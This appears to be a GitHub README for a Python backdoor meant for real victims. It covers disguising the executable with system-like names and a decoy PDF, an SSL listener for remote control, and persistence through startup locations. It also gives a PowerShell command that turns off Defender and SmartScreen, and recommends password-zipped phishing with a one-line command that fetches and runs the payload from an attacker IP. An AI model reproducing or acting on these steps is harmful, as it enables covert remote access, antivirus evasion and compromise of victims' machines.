 # ⚠️ | This Backdoor dosen't bypass windows defender and other AV's completely

---
## Note :
Unobfuscated backdoor will be detected and quarintined by defender

## Requirements for this to work :
### Attacker's side :
1. Python installed with required packages 
2. Pyinstaller installed
3. Update ur current IP address in [Pastebin.com](https://pastebin.com)
4. If target is windows then package it in windows itself

### Victim's side :
1. Dosen't matter if he has python or not
2. Any OS is fine

## Steps to use this backdoor :
1. ### clone this repo :
    ```zsh
   git clone https://github.com/Anonomous69/Backdoor
   pip install requests pillow pyautogui
    ```

   cd to that directory (also dont forget to change the [Pastebin.com](https://pastebin.com) URL)

2. ### find your pyinstaller path and run :
#### For windows :
```powershell
C:\Users\wherever\your\path\is\pyinstaller.exe --onefile --noconsole --name "WindowsExplorer" --icon="icon.ico" ——version-file=version_info.txt --add-data "sample.pdf;." Unobfuscated\plain_backdoor.py
```
  
#### For MacOS :    
```zsh
/Users/path/to/pyinstaller --onefile --windowed --name "SystemUpdate" --icon="icon.icns" --add-data "sample.pdf:." backdoor.py
```

#### For Linux :
```shell
pyinstaller --onefile --noconsole --name "sysupdate" --icon="icon.png" --add-data "sample.pdf:." backdoor.py
```

   If ran successfully the created executable will be in your newly created "Dist" directory

 5. ### Generate cerificates for SSL encryption (Do this in same directory as listener.py) :
    ```shell
    openssl req -new -x509 -days 365 -nodes -out cert.pem -keyout key.pem
    ```

4. ### Run Listener is your machine and send the backdoor to target
```zsh
python listner.py
```
 when target clicks backdoor, you get the connection
 
---

# Working of this backdoor 

### 🧷 1. **Persistence Setup**
The backdoor first **adds itself to system startup locations** to maintain persistence:

- **Windows:**  
  `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`

- **Linux:**  
  `~/.config/autostart`

- **macOS:**  
  `~/Library/LaunchAgents`

---

### 🕵️ 2. **Self-Copy for Stealth**
It then **copies itself to a hidden/system-like location** and re-executes from there:

- **Windows:**  
  `%TEMP%\WindowsExplorer.exe`

- **Linux:**  
  `~/.local/.sysupdate`

- **macOS:**  
  `~/Library/Application Support/.sysupdate`

---

### 📰 3. **Distraction Mechanism**
To **distract the victim**, it opens a decoy PDF file after execution.


---

# Evasion Techniques :
To Disable Defender via Administrative powershell :
Note : Must have Tamper protection off
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true; Set-MpPreference -DisableIOAVProtection $true; Set-MpPreference -DisableScriptScanning $true; Set-MpPreference -PUAProtection 0; Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\AppHost" -Name "EnableWebContentEvaluation" -Value 0; Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer" -Name "SmartScreenEnabled" -Value "Off"
```
To avoid Cloud/Browser based detections :
1. Convert the .exe to Zip file with password protection and use email phishing 
2. Convince the victim to execute these commands assuming he has 7zip-archive installed:
Win + R and then :
```powershell
powershell -Command "Invoke-WebRequest -Uri 'http://<IP>/Windows.zip' -OutFile '$env:TEMP\Windows.zip'; & 'C:\Program Files\7-Zip\7z.exe' x '$env:TEMP\Windows.zip' -o'$env:TEMP' -p12345 -y; Start-Process '$env:TEMP\file.exe'"
```
Note : The backdoor will likely be flagged unless Defender is disabled 
